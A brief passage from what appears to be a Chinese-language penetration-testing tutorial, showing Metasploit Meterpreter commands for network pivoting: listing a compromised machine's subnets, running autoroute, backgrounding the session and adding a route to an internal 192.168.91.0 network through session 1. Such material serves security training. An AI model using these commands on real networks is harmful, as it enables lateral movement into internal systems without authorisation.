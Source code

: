 ![](img/35.png)


```bash
# 查看路由，获取当前机器的所有网段信息
$meterpreter > run get_local_subnets

# 自动查看路由信息
$meterpreter > run post/multi/manage/autoroute
```

![](img/36.png)

```BASH
# 获取路由信息后添加路由
$meterpreter > background

$msf6 exploit(multi/handler) > route add 192.168.91.0 255.255.255.0 1

# 返回sessions
$meterpreter > sessions 1

# 获取路由地址信息：
$meterpreter > run autoroute -p
```
